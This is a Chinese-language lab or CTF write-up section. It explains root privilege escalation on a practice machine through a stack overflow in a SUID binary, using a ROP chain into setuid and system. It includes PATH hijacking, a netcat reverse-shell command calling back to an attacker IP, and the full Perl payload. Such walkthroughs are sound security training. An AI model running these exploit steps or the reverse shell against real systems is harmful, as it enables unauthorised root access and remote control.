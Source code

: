 ## **2. 垂直提权：he110wor1d -> root (SUID & ROP)**

在 `he110wor1d` 用户的家目录下，发现一个拥有SUID权限的可执行文件 `thekey2root`。

```bash
he110wor1d@singdancerap:~/thekey2root$ ls -al
-rwsr-sr-x 1 root root 15472 Mar 1 00:23 thekey2root
```

使用 `checksec` 检查该文件，发现它是一个32位程序，没有PIE和Canary保护，但开启了NX。这是典型的ROP攻击场景。

```bash
[*] '/mnt/hgfs/gx/x/tmp/thekey2root'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

通过GDB动态调试，我们发现 `main` 函数中的 `input()` (即 `scanf`) 存在栈溢出漏洞。利用 `pattern create` 和 `pattern offset`，我们精算出覆盖返回地址所需的偏移量为 **32字节**。

我们的目标是利用程序中的 `system()` 函数来执行命令。为了获得root权限，我们需要一个能够提权的函数。`sing_dance_rap` 函数（地址 `0x08049213`）恰好可以做到这一点，因为它内部调用了 `setuid(0)` 和 `setgid(0)`。

**构造ROP链**：
我们的计划是，先跳转到 `sing_dance_rap` 提权，然后从 `sing_dance_rap` 返回时，再跳转到 `system` 函数，并让其执行我们想要的命令。

*   **填充**：32字节的垃圾数据。
*   **第一跳**：`sing_dance_rap` 的地址 (`0x08049213`)。
*   **第二跳**：`system@plt` 的地址 (`0x08049040`)。
*   **`system`的返回地址**：一个任意的占位地址 (e.g., `0xdeadbeef`)。
*   **`system`的参数**：在程序的只读数据段，我们发现了一个完美的字符串 `"s"`，其地址为 `0x0804a03e`。

**环境准备与攻击执行**：
在靶机上，我们通过环境变量劫持，让 `system("s")` 执行我们指定的反弹Shell脚本。

```bash
# 1. 在攻击机上监听端口
nc -lvnp 9999

# 2. 在靶机上准备环境 (he110wor1d用户下)
echo "nc 192.168.205.128 9999 -e /bin/bash" > s
chmod +x s
export PATH=.:$PATH
```

**最终Payload**:

```
"A"*32 + p32(0x08049213) + p32(0x08049040) + p32(0xdeadbeef) + p32(0x0804a03e)
```

在靶机上，使用Perl执行此payload：

```bash
he110wor1d@singdancerap:~/thekey2root$ perl -e 'print "A"x32 . "\x13\x92\x04\x08" . "\x40\x90\x04\x08" . "\xef\xbe\xad\xde" . "\x3e\xa0\x04\x08"' | ./thekey2root
```
